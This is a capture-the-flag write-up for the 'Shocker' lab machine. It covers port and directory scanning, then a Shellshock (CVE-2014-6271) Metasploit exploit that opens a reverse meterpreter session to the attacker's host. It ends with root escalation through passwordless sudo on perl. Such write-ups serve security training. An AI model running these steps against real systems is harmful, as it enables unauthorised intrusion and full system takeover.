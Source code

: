 ```yaml
---
cover: ../../../../.gitbook/assets/Shocker.png
coverY: 263.1893333333333
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Shocker

## Information

* Add a virtual host.

```bash
echo '10.10.10.56 shocker.htb' | sudo tee -a /etc/hosts
```

* Scan all ports & all services.

```bash
nmap -p- -T4 shocker.htb -o nmap-ports
nmap -p 80,2222 -sV -O shocker.htb -o nmap-services
```

* Enumerate the web server

```bash
gobuster dir -u http://shocker.htb/ -w /usr/share/wordlists/dirb/common.txt -o gobuster-common
```

* You find the folder `/cgi-bin/` try to find a file inside of it.

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x pl,cgi,sh -o gobuster-cgi-files
```

## Exploitation

* The CGI service is vulnerable to CVE-2014-6271

```
msf6> use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6> set RHOSTS shocker.htb
msf6> set TARGETURI /cgi-bin/
msf6> set LHOST tun0
msf6> set LPORT 1234
msf6> run
```

* You gain meterpreter access with **shelly**.

## PrivEsc

* Enumerate the sudo permissions of shelly.

```bash
shelly@target> cat /home/shelly/user.txt
shelly@target> sudo -l
```

* The binary `/usr/bin/perl` can be executed as root with no password.

```
shelly@target> sudo /usr/bin/perl -e "system('bash')"
```

And you gain the **root** access !
